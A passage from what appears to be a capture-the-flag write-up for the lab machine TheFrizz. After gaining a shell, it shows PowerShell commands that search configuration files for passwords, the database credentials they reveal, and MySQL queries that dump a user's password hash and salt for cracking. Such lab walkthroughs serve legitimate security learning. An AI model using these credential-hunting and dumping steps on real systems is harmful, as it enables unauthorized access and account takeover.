 After running our Python server and Netcat listener, we can launch our command to get a shell as `frizz\w.webservice`.

![](/assets/images/writeups/thefrizz/foothold-shell.png)

## User
After having a shell on the box, we proceed to do further host enumeration. I looked for interesting files in the current directory and looking for patterns that matched the keywords "password", "database" or "htb".

```console
PS C:\xampp\htdocs\Gibbon-LMS> Get-ChildItem -File -Recurse -Depth 1 | Where-Object{$_.FullName -match 'config|database|setting'} | Select-String -Pattern "(?i)password|database|htb" | Select Filename,Line | Where-Object { $_.Line -notmatch "^\s*[#*/]" }

Filename   Line
--------   ----
config.php $databaseServer = 'localhost';
config.php $databaseUsername = 'MrGibbonsDB';
config.php $databasePassword = 'MisterGibbs!Parrot!?1';
config.php $databaseName = 'gibbon';
```

After running this command it finds a `config.php` that contains the password of the Gibbon database. Next we can run `mysql` to extract data from the database. Note that we have to be in the current directory to execute the binary.

```console
PS C:\xampp\mysql\bin\> .\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon;DESCRIBE gibbonperson;"
<SNIP>
nameInCharacters        varchar(60)     NO              NULL
gender  enum('M','F','Other','Unspecified')     NO              Unspecified
username        varchar(20)     NO      UNI     NULL
passwordStrong  varchar(255)    NO              NULL
passwordStrongSalt      varchar(255)    NO              NULL
passwordForceReset      enum('N','Y')   NO              N
<SNIP>

PS C:\xampp\mysql\bin\> .\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon;SELECT username,passwordStrong,passwordStrongSalt from gibbonperson;"
username        passwordStrong  passwordStrongSalt
f.frizzle       067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03        /aACFhikmNopqrRTVz2489
```

Inside the database we can find a password hash and salt for `f.frizzle`. We can conver the hash into the right format and crack it with Hashcat.
